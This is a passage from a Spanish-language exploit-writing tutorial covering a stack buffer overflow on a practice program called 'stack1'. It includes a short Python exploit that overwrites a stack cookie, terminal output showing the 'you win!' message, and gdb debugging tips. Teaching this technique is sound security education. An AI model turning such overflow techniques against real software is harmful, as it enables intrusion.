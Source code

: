 Y logramos imprimir el mensaje ganador.\
&#x20;A medida que los exploits se complejicen será de utilidad armar un archivo en Python con el exploit que funcionará como input: `exploit.py`.

```bash
#!/usr/bin/python
output = "A" * 80 + "\x44\x43\x42\x41"
print output
```

Y al ejecutar el programa con ese input logramos el mismo resultado:

```bash
user@abos:~$ python exploit.py |./stack1
buf: bffff5b4 cookie: bffff604
you win!
```

{% hint style="danger" %}
Si utilizamos `gdb` a la hora de debugear el programa es importante tener en cuenta las diferencias en las direcciones al ejecutar un programa y al debugearlo con `gdb` para lograr los resultados esperados.
{% endhint %}

{% hint style="success" %}
Cuando debugeamos con [`gdb`](https://fundacion-sadosky.github.io/guia-escritura-exploits/herramientas.html#debugger-gdb) es posible ingresar un input por stdin al programa vulnerable de la siguiente manera:
{% endhint %}

```bash
user@u:~$ python exploit.py > in
user@u:~$ gdb ./stack1
GNU gdb (Debian 7.7.1+dfsg-5) 7.7.1
...
(gdb) r < in
buf: bffff5b4 cookie: bffff604
you win!
```

### Layout de la pila después del exploit: <a href="#layout-de-la-pila-despues-del-exploit" id="layout-de-la-pila-despues-del-exploit"></a>

Gráficamente logramos el siguiente resultado:

![](<../../../.gitbook/assets/imagen (96).png>)
